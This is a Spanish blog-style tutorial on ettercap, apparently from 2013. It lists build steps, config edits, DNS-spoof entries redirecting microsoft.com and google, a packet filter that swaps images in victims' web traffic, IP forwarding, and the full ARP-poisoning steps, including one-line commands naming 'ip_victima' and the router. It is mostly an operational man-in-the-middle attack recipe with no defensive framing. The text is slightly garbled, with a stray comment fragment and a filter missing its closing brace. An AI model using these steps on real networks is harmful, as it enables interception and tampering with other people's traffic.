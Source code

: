 ```yaml
---
layout: post
title: "ettercap"
date: 2013-12-27 19:40
comments: true
categories: 
---
```

[Dependencias: libcap2 libnet1 zlib1g libpthread-stubs0 libpcre3-dev libpcap-dev libcap-dev libnet6-1.3-0 libnet1-dev libssl-dev ncurses-bin libncurses5-dev libsdl-pango1 libatk1.0-dev]

Snifador de red. Muestra pantallas solicitando aceptación de certificado en los navegadores de las victimas. 

descargar de http://ettercap.sourceforge.net/ y descomprimir 

>$ wget http://prdownloads.sourceforge.net/ettercap/ettercap-NG-0.7.3.tar.gz?download

>$ wget http://sourceforge.net/projects/ettercap/files/ettercap/NG-0.7.3/ettercap-NG-0.7.3.tar.gz/download

>$ tar -zvxf paquete

>$ cd ettercap-NG-0.7.3 

	$ ./configure 

	$ make 

	# make install 

>$ ettercap -P list   (visualizar plugins instalados)

modificar archivo de configuración: 

>\# nano /etc/etter.conf

descomentar la linea:himne20-01-13 19:37Menos información

>\# if you use iptables: 

redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport" 

Y modificar:

>\# the command used by the remote_browser plugin 

remote_browser = "firefox -remote openurl(http://%host%url)"

Para usar el plugin dns_spoof (Redireccionar páginas a otros sitios)

>\# nano /usr/share/ettercap/etter.dns 

>\# 3  Modos de especificar la redirección a localhost 

	microsoft.com          A       192.168.1.2 

	*.microsoft.com        A       192.168.1.2 

	*google*               A       192.168.1.2

Para la sustitución de imagenes:

>\# touch test2filter 

Pegar: 

	if (ip.proto == TCP && tcp.src == 80) { 

	replace("img src=", "img src=\"http://www.irongeek.com/images/jollypwn.png\" "); 

	replace("IMG SRC=", "img src=\"http://www.irongeek.com/images/jollypwn.png\" "); 

	msg("Filter ok.\n");

Configurar el sistema para que acepte todos los paquetes que detecte. Si al lanzar: 

>\# cat /proc/sys/net/ipv4/ip_forward 

Si la respuesta no es 1, lanzar: 

>\# echo 1 > /proc/sys/net/ipv4/ip_forward 

Arrancar la aplicación en ncurses [en terminal -> ettercap -T , en modo gtk -> ettercap -G y en modo demonio -> ettercap -D . En este último caso el análisis se realiza en los archivos de log]: 

>\# ettercap -C 

Clicar en: 

	Sniff -> Unifield sniffing 

Y aceptar [o poner] la red [eth0]. En la nueva pantalla, clic en: 

	Host -> Scan for host 

Para escanear la red. Para visionar las máquina activas obtenidas, clic en: 

	Hosts -> Hosts List 

Bajar con el cursor hasta la IP del router y pulsar la tecla "1". Luego nos situamos sobre la IP del objetivo y pulsar la tecla "2" con lo que colocamos nuestra máquina entre el router y la máquina objetivo (envenenamiento arp). Luego en el cuadro que se abre con: 

	Mitm -> Arp poisoning 

Parameters, ponemos: 

	remote

Y arrancamos el sniffer: 

	Start -> Start sniffing 

	Para observar las conexiones que realiza la máquina objetivo: 

	View -> Connections 

	Para terminar el ataque: 

	Mitm -> Stop mitm atack 

	Start -> Stop Sniffing 

	Start -> Exit

Forma abreviada:

	# ettercap -Tq -M arp:remote -i eth0 ip_victima ip_router 

	O solo especificando la del router si se ataca toda la red: 

>\# ettercap -Tq -M arp:remote -i eth0 ip_router

